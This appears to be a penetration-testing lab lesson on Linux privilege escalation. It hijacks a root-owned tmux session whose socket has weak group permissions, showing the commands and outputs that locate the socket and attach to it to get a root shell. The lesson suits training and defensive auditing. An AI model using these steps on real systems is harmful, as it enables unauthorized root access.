 Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). 
* For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.
```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```
If we can compromise a user in the `devs` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```
Review our group membership.
```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```
